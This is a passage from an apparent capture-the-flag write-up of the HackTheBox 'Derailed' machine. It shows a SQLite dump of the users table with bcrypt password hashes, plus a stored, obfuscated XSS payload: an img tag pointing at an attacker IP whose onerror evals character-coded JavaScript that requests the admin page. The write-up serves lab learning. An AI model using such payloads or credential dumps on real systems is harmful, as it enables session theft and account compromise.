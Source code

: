 ```bash
rails@derailed:/var/www/rails-app/db$ ls
development.sqlite3  migrate  schema.rb
rails@derailed:/var/www/rails-app/db$ sqlite3 development.sqlite3 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .databases
main: /var/www/rails-app/db/development.sqlite3 r/w
sqlite> .tables
ar_internal_metadata  reports               users               
notes                 schema_migrations   
sqlite> SELECT * FROM users;
1|alice|$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.|administrator|2022-05-30 18:02:45.319074|2022-05-30 18:02:45.319074
2|toby|$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle|user|2022-05-30 18:02:45.542476|2022-05-30 18:02:45.542476
105|aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa|$2a$12$hSen8wtUb1JdGrAeFHgMAerrv2CZuNvULben7dtCcqcy3s7n0heOq|user|2023-07-21 09:29:11.948646|2023-07-21 09:29:11.948646
106|baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa|$2a$12$4vsD/ydljiSQoAOa6Cfl2OVtZtwObbQkNdec/kAdQhBmc/PBu.xIi|user|2023-07-21 09:30:06.472350|2023-07-21 09:30:06.472350
107|aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabb<select<style/><img src='http://10.10.14.58/imgfail' onerror="eval(String.fromCharCode(118,97,114,32,120,109,108,72,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,109,108,72,116,116,112,46,111,112,101,110,40,32,34,71,69,84,34,44,32,34,104,116,116,112,58,47,47,100,101,114,97,105,108,101,100,46,104,116,98,58,51,48,48,48,47,97,100,109,105,110....<snippet>
```
It's interesting that we found two users in the users table

```bash
1|alice|$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7
2|toby|$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle
```
Let's check these users from the '/etc/passwd' file.

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Derailed/17.png" >
